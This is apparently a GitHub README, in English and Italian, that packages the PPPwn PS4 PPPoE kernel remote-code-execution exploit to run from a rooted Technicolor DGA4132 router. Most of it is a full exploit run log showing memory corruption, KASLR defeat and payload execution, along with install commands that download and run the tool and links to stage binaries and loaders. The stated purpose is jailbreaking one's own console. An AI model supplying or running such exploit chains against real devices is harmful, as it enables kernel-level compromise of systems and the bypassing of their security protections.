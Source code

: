 # PPPwn_OpenWrt

# English

Here is the exploit tested on a rooted Technicolor DGA4132 modem and working perfectly. I have to thank @CodeInvers3 for the idea, and also @harsha-0110 for the pppwn loader for ARM V7l CPUs. Initially I tested the work of @CodeInvers3, where in theory there is also a web page that is hosted by the modem, but on the DGA4132 it does not work, further tests will follow. Obviously I also leave the references for downloading the pppwn [loaders](https://nightly.link/xfangfang/PPPwn_cpp/workflows/ci.yaml/main) for various different platforms 

# Italian

Ecco l'expolit testato su modem Technicolor DGA4132 rootato e perfettamente funzionante. Devo Ringraziare @CodeInvers3 per l'idea, ed anche @harsha-0110 per il loader pppwn per CPU ARM V7l. Inizialmente ho testato il lavoro di @CodeInvers3, dove in teoria c'è anche una pagina web che viene hostata dal modem, ma sul DGA4132 non funziona, ne seguiranno ulteriori test. Ovviamente lascio anche i riferimenti per il download dei pppwn [loaders](https://nightly.link/xfangfang/PPPwn_cpp/workflows/ci.yaml/main) per varie piattaforme diverse.

# Router TESTED
```sh
DGA 4132
```

## TEST Effettuato:

```sh
root@modemtim:~# ./run.sh
[+] PPPwn++ - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=br-lan fw=900 stage1=/root/offsets/stage1_900.bin stage2=/root/offsets/stage2_900.bin auto-retry=on

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffd78f4c6b5e00
[+] Target MAC: 2c:cc:44:6b:91:bd
[+] Source MAC: 07:5e:6b:4c:8f:d7
[+] AC cookie length: 4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2ecc:44ff:fe6b:91bd
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure reject...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::006c:4141:4141:4141

[+] STAGE 2: KASLR defeat

[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff856a59f8
[+] kaslr_offset: 0x12b8000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffd78f4c6b5e00
[+] Target MAC: 2c:cc:44:6b:91:bd
[+] Source MAC: 03:e6:c4:83:ff:ff
[+] AC cookie length: 510
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffd78f4c908200
[+] Target MAC: 2c:cc:44:6b:91:bd
[+] AC cookie length: 0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
root@modemtim:~#
```

## Requisiti:

# English

- Technicolor DGA4132 rooted.
- Putty.
- Stage1.bin and Stage2.bin are already inside the offsets folder but I leave the reference of the great @Sistro [repository](https://github.com/SiSTR0/PPPwn/releases).
- The pppwn loader is also present on the repo.
- Download goldhen.bin compatible with your PS4

# Italian

- Technicolor DGA4132 rootato.
- Putty.
- Stage1.bin e Stage2.bin sono già al'interno della cartella offsets ma lascio il riferimento del grande @Sistro [repository](https://github.com/SiSTR0/PPPwn/releases).
- Il loader pppwn è anch'esso presente sul repo.
- Download goldhen.bin compatibile con la vostra PS4

## Installazione:

1. Installate "unzip" se non l'avete fatto. Per capire se è già presente lanciate questo comando `opkg list-installed | grep unzip`.
```sh
opkg update
opkg install unzip
```
2. Dopo aver installato unzip lanciate questi comandi da terminale
```sh
cd
```
3. Dovreste vedere sul terminale questo
```sh
"root@modemtim:~#"
```
4. Mi raccomanto di stare attenti a questo segno "~#" e non dovete trovarvi così "/#"
Continuate con:
```sh
wget https://github.com/Fenix46/pppwn_owt/archive/refs/heads/main.zip
unzip main
chmod +x pppwn_owt-main/install.sh
pppwn_owt-main/install.sh
```
5. Date questo comando
```sh
ls -l
```
6. Se tutto va a buon fine dovreste vedere il seguente input dal terminale
```sh
drwxr-xr-x    2 root     root             0 May 24 15:44 offsets
-rwxr-xr-x    1 root     root           138 May 31 12:53 run.sh
```
7. Collegate la PS4 al modem e fate la classica config per il PPPoE per l'exploit non lanciate la verifica della connessione, andrà fatto dopo che sarete al punto 9.
8. Inserite la penna UsB con il goldhen.bin nella PS4
9. E lanciate questo comando
```sh
./run.sh
```
10. Vedrete da terminale l'exploit partire. La config ha l'auto restart se l'exploit fallisce. 

La configurazione è stata testata su PS4 fw 9.00 già exploitata con pppwn ma da pc, quindi il goldhen era già presente su HDD e non ho usato chiavetta a dimostrare il fatto che funziona anche dopo.

L'exploit si può lanciare tutte le volte che si vuole perchè è dormiente e non necessità come in altre config del modem che venga riavviato, basta entrare in "SSH" sul modem e lanciare ./run.sh ovviamente con PS4 collegata già pronta per essere exploitata.

PPPwn from https://https://github.com/harsha-0110/PPPWN-JIO-Router

### A big Thanks is for: @TheOfficialFloW @Sistro @Xfangfang @CodeInvers3 @harsha-0110
